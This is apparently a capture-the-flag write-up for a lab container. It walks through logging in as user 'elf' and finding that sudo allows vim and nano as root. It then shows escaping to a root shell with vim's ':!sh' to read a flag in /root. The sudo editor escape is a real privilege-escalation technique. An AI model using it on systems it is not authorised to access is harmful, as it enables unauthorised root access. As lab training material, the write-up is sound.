

# Escape from Santa House




In this challenge we have four details provided:

1. User: **`elf`**
2. Pass: **`Christmas2023`**
3. Host: 10.10.8.61
4. Port: **`54733`** (it will change when docker container expires)

- A hint that the flag is in the **`/root`** folder
- A timer for the life of the docker container, when expired you will get a button to revert/reset it.

We have ~5 minutes to find the flag in the, so first thing is to connect with the given details:

```shell
ssh 10.10.8.61 -p 39957 -l elf   
elf@10.10.8.61's password: 
```

```
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-56-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Dec 20 20:11:26 2023 from 10.4.24.67
$
```


When connected I've decided to take a look arround

Let's see who we are and where is our home directory:

```shell
$ pwd && whoami
/home/elf
elf
```

Just normal structure.

Let's try to find some hidden items:

```shell
$ ls -a
.  ..  .cache  .local
```

Let's try to look deeper

```shell
$ find .
./.local
./.local/share
./.local/share/nano
./.cache
./.cache/motd.legal-displayed
```

No files no hidden data, let's try go as super user:
```shell
$ sudo find .
[sudo] password for elf: 
Sorry, user elf is not allowed to execute '/usr/bin/find .' as root on 7546eb54b93f.
```

One more try:
```shell
$ sudo su -
[sudo] password for elf: 
Sorry, user elf is not allowed to execute '/usr/bin/su -' as root on 7546eb54b93f.
```

So let's see what our user ***`elf`*** can do:

```shell
$ sudo -l
[sudo] password for elf: 
Matching Defaults entries for elf on 7546eb54b93f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User elf may run the following commands on 7546eb54b93f:
    (root) /usr/bin/vim
    (root) /usr/bin/nano
```

So this time we can see that our user ***`elf`*** can run two programs with root access:
- nano
- vim

This is very promising! Both tools are editors, so they can read files in root folder.

Even more since they have ***`root`*** access they can execute commands even fancier - a shell

The next is easy - find the location and read it! They have hinted that it's in /root folder

A quick search on the web tells us how ***`nano`*** and ***`vim`*** can browse folders and execute commands.

Next is easy:

- For ***`vim`*** you can open shell by entering this command ***`:!sh`***
- For ***`nano`*** CTRL+T execute commands and prints their results in the editor

I decided to go with ***`vim`***:

```shell
# pwd && whoami
/home/elf
root
```

Now I'm root and can do everything:

Open the /root folder, search and get the flag:
```shell
# cd /root
# ls -a
.  ..  .bash_history  .bashrc  .local  .profile  .vim  .viminfo  flagishere.txt
# cat flagishere.txt
MilestoneCTF{security-misconfigurations-make-Santa-sad}
```

There are other ways if you like working in ***`vim`*** but I hate that app :-)


